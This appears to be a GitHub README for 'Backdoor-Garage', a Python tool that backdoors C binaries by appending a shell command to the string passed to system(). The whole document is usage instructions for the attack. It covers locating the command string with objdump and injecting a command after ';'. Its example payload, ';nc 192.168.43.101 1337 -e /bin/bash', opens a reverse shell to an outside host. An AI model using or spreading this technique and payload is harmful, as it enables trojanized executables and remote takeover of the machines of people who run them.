

# Backdoor-Garage
I don't know whats this method called as I did not find any information related to this backdooring technique . Its something that I came up with . This python scripts appends shell command to the parameter of system() function in C binaries . So when the binary runs the appended shell command runs too. Sometimes the binary gives segfault after executing the command.

# Installation
``` bash
sudo apt-get install python3
```
# Run the script
```bash
python3 backdoor.py
```
# How to use ?

After running it you will see something like this :


In that input field enter the shell command that the binary you want to backdoor uses . For example if a binary uses the ls command use that as an input . If you are not sure what command your binary uses you can always check the .rodata using objdump.
```bash
objdump -s -j .rodata binary_name
```
Next the program will ask you to enter the malicious command . Make sure you add "; or &" before your command.
```bash
;nc 192.168.43.101 1337 -e /bin/bash
```
This will terminate the first command and add your command.
Then enter the file name and you are good to go . Now the binary file is backdoored.

# Disclaimer
Sometimes this process may overwrite important strings in .rodata section . In this case the binary will give segfault before or after executing the malicious command.
Sorry for the poor code quality as I was in a hurry . 


